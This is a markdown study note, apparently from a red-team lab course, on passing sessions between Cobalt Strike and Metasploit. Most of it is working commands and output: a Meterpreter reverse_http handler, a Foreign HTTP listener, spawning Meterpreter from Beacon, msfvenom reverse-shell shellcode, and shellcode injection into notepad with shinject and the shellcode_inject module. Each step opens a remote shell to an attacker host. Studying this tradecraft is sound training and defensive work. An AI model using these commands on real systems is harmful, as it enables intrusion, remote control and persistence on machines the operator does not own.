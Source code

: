 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Session Passing]]  
___

## Description:  

### Cobalt Strike to Meterpreter

Session passing is a means of spawning payloads that can talk to other Cobalt Strike listeners, or even listeners of entirely different C2 frameworks.

On the Kali VM, launch `msfconsole` and start a new `multi/handler` using the `windows/meterpreter/reverse_http` payload.

```
root@kali:~# msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTP reverse handler on http://10.10.5.120:8080
```

In Cobalt Strike, go to **Listeners > Add** and set the **Payload** to **Foreign HTTP**. Set the **Host** to **10.10.5.120** (Meterpreter IP), the **Port** to **8080** and click **Save**.

Now to spawn a Meterpreter session from Beacon, simply type `spawn <listener name>`.

```
beacon> spawn metasploit
[*] Tasked beacon to spawn (x86) windows/foreign/reverse_http (10.10.5.120:8080)
```

```
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: ofosht99) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.120:8080 -> 10.10.17.231:53951)

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  DEV\bfarmer @ WKSTN-1  10.10.5.120:8080 -> 10.10.17.231:53951 (10.10.17.231)
```

Alternatively, Beacon's `shinject` command can inject any arbitrary shellcode into the specified process. The process can be an existing one, or one we start with the `execute`, `run` or even `shell` commands.

Generate x64 stageless Meterpreter shellcode with `msfvenom`.

```
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.120 LPORT=8080 -f raw -o /tmp/msf.bin
```

Ensure the multi handler is setup appropriately and inject the shellcode.

```
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 1492  4268  notepad.exe                  x64   1           DEV\bfarmer

beacon> shinject 1492 x64 C:\Payloads\msf.bin
```

```
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.120:8080
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Redirecting stageless connection from /N1ZSg3AJ641CWUNbIhhT5QWcTIqjJ_npAOt9u8b01bCZLPFvg0YNTQPPZpC2osS8NoHGOLaUyHHR with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (10.10.5.120:8080 -> 10.10.17.231:53793)
```


### Meterpreter to CobaltStrike
To generate stageless Beacon shellcode, go to `Attacks > Packages > Windows Executable (S)`, select the desired listener, select **Raw** as the **Output** type and select **Use x64 payload**.

Then use the `post/windows/manage/shellcode_inject` module to inject it into a process.


```
msf6 > use post/windows/manage/shellcode_inject
msf6 post(windows/manage/shellcode_inject) > set SESSION 1
msf6 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/beacon.bin
msf6 post(windows/manage/shellcode_inject) > run

[*] Running module against WKSTN-1
[*] Spawned Notepad process 4560
[+] Successfully injected payload into process: 4560
[*] Post module execution completed
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (09:15 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
